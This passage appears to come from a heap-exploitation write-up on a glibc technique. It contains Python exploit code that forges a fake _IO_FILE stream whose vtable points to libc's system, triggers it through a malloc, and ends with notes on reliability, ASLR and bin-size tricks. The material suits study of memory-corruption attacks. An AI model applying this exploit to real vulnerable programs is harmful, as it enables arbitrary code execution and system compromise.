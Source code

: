 ```python
write_base = 0x4141414141414140
write_ptr = 0x4141414141414141
mode = 0
vtable_ptr = heap + 0xd8
overflow = libc.sym.system

# Note that these write_base,ptr,mode are required to pass the checks for the secondary stream, which is forged at the heap (and not the arena like the first stream).
# It means that this memory is actually both 0x61 size chunk that was tearned-off the unsortedbin into the smallbin, and both a stream
fake_io_file = flags + p64(size) +\
        p64(fd) + p64(bk) +\
        p64(write_base) + p64(write_ptr) +\
        p64(0)*18 + p32(mode) + p32(0) +\
        p64(0) + p64(overflow) + p64(vtable_ptr)

edit(b"X"*16 + fake_io_file)

small_malloc()

```

## Key Notes

1. The first phase (that generates a free chunk within the unsortedbin) may be omitted, in case we can overwrite unsortedbin metadata. \
In case there are free chunks available, we can skip this part. 

2. The top chunk expansion trick (triggering free via malloc) only works on the main arena. \
On other arenas, their top chunk size doesn't determine whether newly returned memory by `brk` is contiguous. 

3. The exploit isn't 100% reliable. \
This is because of the `_mode` field of the first stream, that resides within the arena. It repurpused as the LSB of the `0xc0` smallbin, hence its MSB bit (that determins its negativity) is subject to ASLR. 

4. During phase 3: if only `0x60` bins allocations are possible, we can set the top chunk size to `0x69`. This identifies the chunk as *non-exact-fit*, while it is still sorted into the `0x60` smallbin. \
Another option is to set the size to `0xb1`, causing return to the `main_arena` when treated as a `_chain` pointer, so that the `smallbin[0xb0]` overlaps the file stream's `_chain` pointer.
